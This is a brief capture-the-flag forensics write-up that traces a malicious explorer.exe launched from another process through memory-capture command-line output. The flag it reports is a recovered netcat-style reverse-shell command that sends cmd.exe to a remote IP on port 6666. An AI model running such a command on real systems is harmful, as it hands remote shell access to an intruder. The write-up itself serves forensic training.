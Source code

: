 # Commands
![](../../assets/forensics/commands_1.png)

[Zip File](https://drive.google.com/file/d/1porBmluAvOp9qaK-lRJf4NqYysfd9gxw/view?usp=sharing) 

Please before look to [Captured Memories](Forensics/Captured%20Memories/index.md)

From [cmdline output](../../assets/forensics/cmdline.txt) we can easily  see  process `3100` use process `5448`'s  malicious explorer.exe.

![](../../assets/forensics/commands_2.png)


Flag: `flag{explorer.exe  192.168.1.157 6666 -e cmd.exe}` 
